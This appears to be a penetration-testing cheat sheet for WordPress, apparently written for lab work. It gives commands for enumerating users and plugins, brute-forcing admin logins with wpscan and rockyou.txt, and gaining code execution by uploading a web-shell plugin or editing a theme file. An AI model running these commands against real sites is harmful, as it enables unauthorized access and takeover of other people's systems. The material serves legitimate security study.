 # WordPress

## WordPress CMS

**WordPress** (**WP**, **WordPress.org**) is a [free and open-source](https://en.wikipedia.org/wiki/Free\_and\_open-source\_software) [content management system](https://en.wikipedia.org/wiki/Content\_management\_system) (CMS) written in [PHP](https://en.wikipedia.org/wiki/PHP)[\[4\]](https://en.wikipedia.org/wiki/WordPress#cite\_note-4) and paired with a [MySQL](https://en.wikipedia.org/wiki/MySQL) or [MariaDB](https://en.wikipedia.org/wiki/MariaDB) database. Features include a [plugin architecture](https://en.wikipedia.org/wiki/Plug-in\_\(computing\)) and a [template system](https://en.wikipedia.org/wiki/Web\_template\_system), referred to within WordPress as Themes. WordPress was originally created as a [blog-publishing system](https://en.wikipedia.org/wiki/Blog) but has evolved to support other web content types including more traditional [mailing lists](https://en.wikipedia.org/wiki/Electronic\_mailing\_list) and [forums](https://en.wikipedia.org/wiki/Internet\_forum), media galleries, membership sites, [learning management systems](https://en.wikipedia.org/wiki/Learning\_management\_system) (LMS) and [online stores](https://en.wikipedia.org/wiki/Shopping\_cart\_software). WordPress is used by 41.4% of the top 10 million websites as of May 2021,[\[5\]](https://en.wikipedia.org/wiki/WordPress#cite\_note-Usage\_of\_content\_management\_systems\_for\_websites-5) WordPress is one of the most popular content management system solutions in use.[\[6\]](https://en.wikipedia.org/wiki/WordPress#cite\_note-6) WordPress has also been used for other application domains, such as [pervasive display systems](https://en.wikipedia.org/wiki/Pervasive\_display\_systems) (PDS).[\[7\]](https://en.wikipedia.org/wiki/WordPress#cite\_note-7)

The text above was extracted from [Wikipedia](https://en.wikipedia.org/wiki/WordPress).

## WordPress Locations

These are the most commong wordpress locations:

* /wp-admin
* /directory\_name/wp-admin

## Enumerating WordPress

WordPress Key Points:

* Tools > Site Health > Info > Server
* Tools > Site Health > Info > Database
* Plugins are written in PHP
* Upload Plugins with PHP Reverse Shell

### Nmap

We can nmap nse scripts:

```
sudo nmap --script http-wordpress-enum target.xyz
```

### WPScan

Before starting a wpscan you should update it:

```
wpscan --update
```

To startup, we can use the “non-intrusive” default scan using only the `--url` parameter to determine the WordPress version installed and some other information about the installation including PHP version, potential vulnerabilities, and interesting files, such as robots.txt files which could contain interesting directory or file references

```
wpscan --url http://target
```

Enumerate users:

```
wpscan --url http://target --enumerate u
```

Enumerate plugins:

```
wpscan --url http://target --enumerate p
```

Enumerate credentails with random-user-agent header:

```
wpscan --url http://target --usernames users.txt -P rockyou.txt random-user-agent
```

Enumerate and store the output:

```
wpscan -u http://10.10.10.88/webservices/wp/ --enumerate p,t,u | tee wpscan.log
```

Helps identify issues on a Wordpress page:

```
wpscan --url http://10.10.140.124/wordpress/ -t 40 --detection-mode mixed --enumerate ap --plugins-detection aggressive 
```

### Curl

We can enumerate users with curl and if the HTTP status code from the response is 301 then it means that the user exists:

```
 curl -s -o /dev/null -w "%{http_code}\n" http://target/author/username
```

To automate this process we can create a loop:

```bash
for i in $(cat users.txt); \ do curl -s -o /dev/null -w "%{http_code}:$i\n" \ http://target/author/$i; done
```

An alternative method to enumerate users without a wordlist can be the following (author=1,author=2, etc):

```bash
 for i in {1..5}; \ do curl -L -s http://target/?author=$i \ | grep -iPo '(?<=<title>)(.*)(?=</title>)' \ | cut -f1 -d" " |grep -v "Page"; done
```

### Plecost

Enumerate plugins:

```
plecost -i /usr/share/plecost/wp_plugin_list.txt http://target
```

### Enumerating Plugins

SecLists has a good wordlist for fuzzing for plugins called `wp-plugins.fuzz.txt`

```
wfuzz -c -t 200 --hc=404 -w wp-plugins.fuzz.txt http://10.10.10.88/webservices/wp/FUZZ
```

We can wpscan to enumerate plugins:

```
 wpscan --url http://target --enumerate p
```

## Attacking WordPress

### Bruteforce

#### wpscan

We can supply a wordlist of passwords, and the “--username” parameter with a value of “admin” and if we’re lucky, we may be able to get access to the administrative interface:

```
wpscan --url http://target --wordlist /usr/share/wordlists/rockyou.txt --username admin
```

General Bruteforce with random-user-agent:

```
wpscan --url http://target --usernames users.txt -P rockyou.txt random-user-agent
```

### Author ID Bruteforce

```
wpscan --url http://10.10.185.115/blog/ -t 40 -e at,ap,u1-3000,m1-2000 --passwords /usr/share/wordlists/rockyou.txt
```

Simplified:

```
wpscan --url http://10.10.189.203 -t 40 -e ap,u1-1000 --passwords /usr/share/wordlists/rockyou.txt
```

#### **wpbf**

{% embed url="https://github.com/atarantini/wpbf" %}

Bruteforce with username:

```
 python wpbf.py -w passwords.txt -u admin http://target
```

### Plugins WebShell

First, find a web shell and compress it into a zip file:

```
kali@kali:~$ cd /usr/share/seclists/Web-Shells/WordPress
kali@kali:/usr/share/seclists/Web-Shells/WordPress$ sudo zip plugin-shell.zip plugin-shell.php
adding: plugin-shell.php (deflated 58%)
```

Then follow these steps:

Plugins -> Add New -> Upload Plugin -> Browse -> plugin-shell.zip -> Open -> Install Now ->

After installing the plugins, visit the uploaded and installed plugin directory/file and execute it via the browser, burp, curl or anything similar:

```
kali@kali:~$ curl http://10.10.10.10/wp-content/plugins/plugin-shell/plugin-shell.php?cmd=whoami
www-data
```

### Theme RCE

WordPress > Appearance > Theme Editor > Theme Header then insert a webshell.

![Appearance -> Theme Editor -> Twenty Twenty -> Theme Files -> 404.php](../../../.gitbook/assets/wordpress-twenty-twenty-404-php-webshell.png)
